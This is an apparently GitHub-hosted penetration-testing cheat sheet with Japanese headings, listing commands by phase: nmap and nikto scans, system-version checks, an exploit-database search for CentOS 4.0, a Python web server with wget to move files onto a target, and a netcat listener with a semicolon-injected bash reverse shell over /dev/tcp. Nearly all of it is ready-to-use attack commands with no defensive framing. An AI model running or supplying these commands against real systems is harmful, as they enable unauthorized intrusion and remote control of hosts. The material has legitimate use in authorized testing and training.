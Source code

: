 
## Reconnaissance

ポート確認

    nmap -v -p- -sV -sT -Pn [HOST]
    nmap -v -A [HOST]

Webサーバ

    nikto -h [HOST]

サーバ状態確認

    uname -a
    cat /etc/redhat-release
    cat /proc/version

exploitdb https://github.com/offensive-security/exploitdb

    searchsploit CentOS 4.0

## Delivery

転送

    python -m SimpleHTTPServer 9998
    wget http://address:9998/file


## Exploitation

bashリバースシェル http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

    nc -lvp 9999
    ;bash -i >& /dev/tcp/ip/9999 0>&1



